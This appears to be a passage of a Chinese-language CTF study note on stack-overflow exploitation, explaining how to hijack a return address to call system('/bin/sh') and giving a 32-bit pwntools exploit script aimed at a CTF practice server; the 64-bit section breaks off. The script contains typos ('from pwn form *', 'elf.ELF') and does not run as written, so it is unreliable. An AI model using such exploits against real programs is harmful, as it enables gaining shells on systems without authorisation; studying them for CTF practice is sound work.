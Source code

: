 ## ret2syscall

### 原理

利用栈溢出漏洞来，劫持返回地址，注入系统调用指令，来操作程序已有的系统调用来执行shell，不需要注入shellcode

### 情况一

当存在system函数，但是没有要执行的命令，刚好存在字符串"/bin/sh"的地址

![image-20240501103349505](image/image-20240501103349505.png)

想取得system函数的地址可以使用，elf.plt[]或者elf.sym[]

获取"/bin/sh"字符串的地址可以使用，

#### 32位

```python
from pwn form *
context(os='linux',arch='i386',log_level='debug')
#p = process('./pwn')
p = remote('node.buuoj.cn',8888)
elf.ELF('./pwn')

#获取system地址
system_addr = elf.sym['system']	#获得一个符号地址
#system_addr = elf.symbols['system']	#获得多个符号地址
#system_addr = elf.plt['system']
#system_addr = 0x12345678

#获取"/bin/sh"地址
bin_sh = next(elf.search(b'/bin/sh')) #next是指搜到的第一个元素

bin_sh = 0x12345678
payload = cyclic(8) + p32(system_addr) + p32(0) + p32(bin_sh)	#中间需要加一个p32(任意地址)，32位调用完函数之后，后面都要跟一个返回地址，要符合函数调用约定
p.sendline(payload)
p.interactive()
```

#### 64位

由于64传递参数，会先用6个寄存器传参，往后才使用栈传递参数，所以需要用简单的ROP来构造"/bin/sh"
